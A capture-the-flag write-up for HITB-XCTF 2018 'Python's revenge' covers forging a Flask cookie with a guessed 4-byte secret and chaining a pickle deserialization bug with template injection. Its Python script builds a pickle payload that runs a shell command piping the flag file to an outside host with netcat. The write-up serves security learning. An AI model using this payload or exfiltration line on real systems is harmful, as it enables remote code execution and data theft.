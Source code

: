 # HITB-XCTF 2018 Quals : Python's revenge

## Write-up

first, we could see that “cookie_secret” did not change and that it was only 4 bytes.
through the process of creating the same cookie, we can see that "cookie_secret" is "hitb".
So we were able to create cookies that worked fine and could use the "pickle load bug".

But, Filtering with “black_type_list” was strict.
So we came up with another vulnerability called SSTI using "render_template_string".

```py
from base64 import b64decode as b64d
from base64 import b64encode as b64e
from hashlib import sha256
import pickle
def make_cookie(location, secret):
    return "%s!%s" % (calc_digest(location, secret), location)

def calc_digest(location, secret):
    return sha256("%s%s" % (location, secret)).hexdigest()

cookie_secret = "hitb" 
#a = "cflask.templating\nrender_template_string\np0\n(S\"{{request.__class__.__mro__[8].__subclasses__()[40]('app.py').read()}}\"\np1\ntp2\nRp3\n."
#a = "cflask.templating\nrender_template_string\np0\n(S\"{{request.__class__.__mro__[8].__subclasses__()}}\"\np1\ntp2\nRp3\n."

a = "cflask.templating\nrender_template_string\np0\n(S\"{{request.__class__.__mro__[8].__subclasses__()[312]('cat ../flag_is_here|nc wooeong.kr 9999',shell=True)}}\"\np1\ntp2\nRp3\n."
location = b64e(a)
print repr(location)
cookie = make_cookie(location, cookie_secret)
print repr(cookie)
```


> flag : HITB{Py5h0n1st8eBe3tNOW}

